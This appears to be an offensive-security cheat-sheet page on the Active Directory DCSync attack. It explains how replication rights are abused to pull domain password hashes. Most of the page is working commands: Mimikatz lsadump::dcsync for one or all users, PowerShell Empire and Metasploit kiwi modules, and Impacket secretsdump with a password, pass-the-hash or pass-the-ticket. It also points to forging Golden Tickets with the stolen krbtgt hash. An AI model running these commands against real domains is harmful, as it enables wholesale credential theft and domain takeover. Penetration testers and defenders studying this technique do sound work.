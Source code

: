 # DCSync

The most of the Organisation need more than one domain controller for their Active Directory and to maintain consistency among multiple Domain controller, it is necessary to have the Active Directory objects replicated through those DCs with the help of MS-DRSR refer as Microsoft feature Directory Replication Service \(DRS\) Remote Protocol that is used to replicate users data from one DC to another. Taking Advantage of this feature the attack abuse the MS-DRSR using Mimikatz-DCSYNC.

{% hint style="info" %}
Any member of Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer accounts are able to run DCSync to pull password data.
{% endhint %}

## **DCSYNC Attack**

The Mimikatz DCSYNC-function allows an attacker to replicate Domain Controller \(DC\) behaviour. Typically impersonates as a domain controller and request other DC’s for user credential data via GetNCChanges.

But compromised account should be a member of administrators, Domain Admin or Enterprise Admin to retrieve account password hashes from the others domain controller. As a result, the intruder will build Kerberos forged tickets using a retrieved hash to obtain any of the Active Directory ‘s resources and this is known as **Golden Ticket** attack.

{% hint style="info" %}
**For this attack to work, we need to have a user account with domain admins membership.**
{% endhint %}

### **Using Mimikatz DCSync**

```text
# DCSync only one user
mimikatz# lsadump::dcsync /domain:htb.local /user:krbtgt

# DCSync all users of the domain
mimikatz# lsadump::dcsync /domain:htb.local /all /csv
```

{% hint style="info" %}
Read-Only Domain Controllers are not allowed to pull password data for users by default.
{% endhint %}

### **PowerShell Empire**

```text
usemodule credentials/mimikatz/dcsync_hashdump
set user krbtgt
execute
```

the Empire has a similar module that retrieves the hash of the entire domain controller users account.

```text
usemodule credentials/mimikatz/dcsync_hashdump
execute
```

### **Metasploit**

If you have meterpreter session of the victim machine who account is member of domain admin, then here also you can execute Mimikatz-DCSYNC attack in order to obtain user’s password.

```text
load kiwi
dcsync_ntlm krbtgt
dcsync krbtgt
```

### Impacket secretsdump

```text
# using a plaintext password
secretsdump -outputfile 'something' 'DOMAIN'/'USER':'PASSWORD'@'DOMAINCONTROLLER'
​
# with Pass-the-Hash
secretsdump -outputfile 'something' -hashes 'LMhash':'NThash' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'
​
# with Pass-the-Ticket
secretsdump -k -outputfile 'something' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'
```









